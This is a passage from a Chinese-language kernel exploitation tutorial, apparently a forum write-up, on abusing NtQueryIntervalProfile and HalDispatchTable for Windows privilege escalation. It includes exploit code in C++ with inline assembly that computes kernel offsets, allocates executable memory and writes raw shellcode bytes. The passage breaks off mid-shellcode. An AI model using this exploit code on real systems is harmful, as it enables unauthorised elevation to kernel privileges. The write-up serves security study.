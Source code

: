  

![](https://bbs.pediy.com/upload/attach/202107/817966_MCG8W8THAW2JVRH.jpg)

 

其次判断参数`Interval`指向地址是否超过`MmUserProbeAddress`：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_XMETPKEQMSYZ4T4.jpg)

 

最后判断`ProfileSource`是否为零，非零值则调用`KeQueryIntervalProfile`：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_8PBFQA3GBW28GTE.jpg)

 

`KeQueryIntervalProfile`会判断`ProfileSource`是否为 1，不为 1 才会继续调用`nt!HalDispatchTable+0x4`

 

![](https://bbs.pediy.com/upload/attach/202107/817966_TV589B339TEJBRR.jpg)

 

如此，笔者构造 Exploit 中对该函数调用如下：

```
PNtQueryIntervalProfile NtQueryIntervalProfile = (PNtQueryIntervalProfile)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQueryIntervalProfile");
    if (!NtQueryIntervalProfile) {
        cout << "[!] Failed to Get the Address of NtQueryIntervalProfile." << endl;
        cout << "[!] Last error " << GetLastError() << endl;
        exit(1);
    }
    NtQueryIntervalProfile(ProfileTotalIssues, (ULONG*)SC);        //SC——>Shellcode Address

```

对`nt!HalDispatchTable+0x4`函数调用不止`KeQueryIntervalProfile`一处，所以在 Shellcode 中需要将其替换成原数值，通过其与`HalSetSystemInformation`函数地址相差 0x912 来进行恢复：

```
INT32 KrBase = GetKernelBaseAddress();
    INT32 HalDispatchTable_Address = KrBase + 0x0012b3f8;
    INT32 HalQuerySystemInformation_Address = HalDispatchTable_Address + 0x4;
    INT32 HalSetSystemInformation_Address = HalDispatchTable_Address + 0x8;     //HalQuerySystemInformation_Address Offset 0x14
    CHAR* SC = (CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);
    ZeroMemory(SC, 0x60);
    __asm {
        pushad;
        mov eax, HalSetSystemInformation_Address;
        mov ebx, HalQuerySystemInformation_Address;
        mov edi, SC;
        mov[edi], 0x60;
        mov dword ptr[edi + 0x1], 0x000000E8;
        mov dword ptr[edi + 0x5], 0x588B5800;
        mov dword ptr[edi + 0x9], 0x4F488B4B;
        mov dword ptr[edi + 0xD], 0xEA81138B;
        mov dword ptr[edi + 0x11], 0x00000912;
        mov dword ptr[edi + 0x15], 0x90901189;
        mov dword ptr[edi + 0x19], 0x8B64C031;
        mov dword ptr[edi + 0x1D], 0x00012480;
        mov dword ptr[edi + 0x21], 0x50408B00;
        mov dword ptr[edi + 0x25], 0x04BAC189;
        mov dword ptr[edi + 0x29], 0x8B000000;
        mov dword ptr[edi + 0x2D], 0x0000B880;
```